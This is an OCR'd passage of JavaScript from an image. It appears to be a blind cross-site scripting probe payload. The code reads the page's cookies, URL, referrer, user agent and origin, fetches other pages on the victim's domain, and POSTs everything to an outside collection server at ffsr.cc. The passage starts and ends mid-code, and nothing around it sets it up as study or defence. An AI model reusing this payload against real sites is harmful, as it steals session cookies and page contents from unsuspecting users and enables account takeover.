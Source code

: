     var http = new XMLHttpRequest();
    var url = "https://ffsr.cc/page_callback";
    http.open("POST", url, true);
    http.onreadystatechange = function() {
        if (http.readyState == 4 && http.status == 200) {
        }
    }
    http.send(form_data);
}

function collect_page_data(path) {
    try {
        var full_url = location.protocol + "//" + document.domain + path
        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (xhr.readyState == XMLHttpRequest.DONE) {
                page_data = {
                    "html": xhr.responseText,
                    "uri": full_url
                }
                send_collected_page(page_data);
            }
        }
        xhr.open('GET', full_url, true);
        xhr.send(null);
    } catch (e) {}
}

probe_return_data = {};

// Prevent failure incase the browser refuses to give us any of the probe data.
try {
    probe_return_data['uri'] = never_null(location.toString());
} catch (e) {
    probe_return_data['uri'] = '';
}
try {
    probe_return_data['cookies'] = never_null(document.cookie);
} catch (e) {
    probe_return_data['cookies'] = '';
}
try {
    probe_return_data['referrer'] = never_null(document.referrer);
} catch (e) {
    probe_return_data['referrer'] = '';
}
try {
    probe_return_data['user-agent'] = never_null(navigator.userAgent);
} catch (e) {
    probe_return_data['user-agent'] = '';
}
try {
    probe_return_data['browser-time'] = never_null((new Date().getTime()));
} catch (e) {
    probe_return_data['browser-time'] = '';
}
try {
    probe_return_data['probe-uid'] = never_null(get_guid());
} catch (e) {
    probe_return_data['probe-uid'] = '';
}
try {
    probe_return_data['origin'] = never_null(location.origin);
} catch (e) {
    probe_return_data['origin'] = '';